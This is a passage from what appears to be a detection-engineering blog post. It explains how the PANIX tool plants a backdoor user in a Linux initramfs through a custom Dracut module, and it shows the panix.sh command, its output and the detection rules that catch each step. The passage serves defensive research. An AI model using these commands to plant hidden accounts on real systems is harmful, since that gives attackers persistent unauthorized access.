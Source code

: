 First, the script ensures that the root filesystem (`/sysroot`) is writable. If this check completes, the script continues to add a new user by manually modifying the `/etc/shadow`, `/etc/passwd` and `/etc/group` files. The most important thing to notice is that these scripts rely on built-in shell utilities, as utilities such as `grep` or `sed` are not available in this environment. After writing the script, it is granted execution permissions and is good to go.

Finally, Dracut is called to rebuild initramfs for the kernel version that is currently active:

`dracut --force /boot/initrd.img-$(uname -r) $(uname -r)`

Once this step completes, the modified initramfs is active, and rebooting the machine will result in the `backdoor-user.sh` script being executed.

As always, first we take a snapshot, then we run the module:

```
> sudo ./panix.sh --initramfs --dracut --username panix --password secret --snapshot yes
[!] Will inject user 'panix' with hashed password <hash> into the initramfs.
[!] Preparing Dracut-based initramfs persistence...
[+] Created dracut module setup script at /usr/lib/dracut/modules.d/99panix/module-setup.sh
[+] Created dracut helper script at /usr/lib/dracut/modules.d/99panix/backdoor-user.sh
[*] Rebuilding initramfs with dracut...
[...]
dracut: *** Including module: panix ***
[...]
[+] Dracut rebuild complete.
[+] setup_initramfs module completed successfully.
[!] Ensure you have a recent snapshot/backup of your system before proceeding.
```

And take a look at the documents available in Discover:

![PANIX Initramfs module execution visualized in Kibana - Dracut method](/assets/images/the-grand-finale-on-linux-persistence/image5.png)

Upon execution, `openssl` is used to create a password hash for the `secret` password. Afterwards, the directory structure `/usr/lib/dracut/modules.d/99panix` is created, and the `module-setup.sh` and `backdoor-user.sh` scripts are created and granted execution permissions. After regeneration of the initramfs completes, the backdoor has been planted, and will be active upon reboot.

Let’s take a look at the coverage:

*Detection and endpoint rules that cover dracut initramfs persistence*

| Category | Coverage |
| :---- | :---- |
| File | [Dracut Module Creation](https://github.com/elastic/detection-rules/blob/cf183579b46dae3ebd294098b330341a98691fd0/rules/linux/persistence_dracut_module_creation.toml) |
|      | [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/2bb46899aea8571172687927b8084695bec44a62/rules/integrations/fim/persistence_suspicious_file_modifications.toml) |
| Process | [Manual Dracut Execution](https://github.com/elastic/detection-rules/blob/cf183579b46dae3ebd294098b330341a98691fd0/rules/linux/persistence_manual_dracut_execution.toml) |
|         | [OpenSSL Password Hash Generation](https://github.com/elastic/detection-rules/blob/3e655abfef5e6b9c759cc82fa225be48a90bbc24/rules/linux/persistence_openssl_passwd_hash_generation.toml) |
|         | [Executable Bit Set for Potential Persistence Script](https://github.com/elastic/detection-rules/blob/2bb46899aea8571172687927b8084695bec44a62/rules/linux/persistence_potential_persistence_script_executable_bit_set.toml) |

You can revert the changes made by PANIX by running the following revert command:
